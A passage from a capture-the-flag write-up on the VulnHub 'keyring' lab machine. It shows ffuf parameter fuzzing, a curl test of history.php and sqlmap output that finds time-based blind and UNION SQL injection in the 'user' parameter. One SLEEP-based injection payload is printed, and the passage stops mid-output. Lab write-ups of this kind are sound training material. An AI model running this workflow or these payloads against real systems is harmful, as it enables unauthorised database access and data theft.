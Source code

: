 ```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ ffuf -u 'http://192.168.1.37/history.php?FUZZ=abdou'  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -fs 0 -H "Cookie: PHPSESSID=3ehfe0l64atjl5jsakq20r0gd3"
# ... (truncated output) ...
user                    [Status: 200, Size: 72, Words: 5, Lines: 1, Duration: 4ms]
# ... (truncated output) ...
```

To confirm this, I used `curl` to manually test the `user` parameter with a value like `abdou`.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ curl -H "Cookie: PHPSESSID=3ehfe0l64atjl5jsakq20r0gd3" http://192.168.1.37/history.php?user=abdou
Pages visited by user abdou<br><br>home<br><br>home<br><br>about<br><br>
```

The response `Pages visited by user abdou<br><br>home<br><br>home<br><br>about<br><br>` confirmed that the `user` parameter was indeed reflecting data, indicating a potential SQL Injection vulnerability.

### 3. SQL Injection

I saved the HTTP request to a file named `request` for use with `sqlmap`.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ echo 'GET /history.php?user=abdou HTTP/1.1
Host: 192.168.1.37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ar;q=0.8
Cookie: PHPSESSID=3ehfe0l64atjl5jsakq20r0gd3
Connection: keep-alive' > request
```

I then used `sqlmap` to automatically detect and exploit the SQL injection vulnerability. I specified the request file, batch mode, level 2, risk 2, and 5 threads for efficiency.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ sqlmap -r request --batch --level=2 --risk=2 --threads=5
# ... (truncated sqlmap output) ...
[11:39:40] [INFO] GET parameter 'user' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (2) values? [Y/n] Y
[11:39:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:39:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:39:40] [INFO] target URL appears to be UNION injectable with 1 columns
[11:39:40] [INFO] GET parameter 'user' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 382 HTTP(s) requests:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=abdou' AND (SELECT 2087 FROM (SELECT(SLEEP(5)))kiLu) AND 'tHpY'='tHpY
    Type: UNION query
```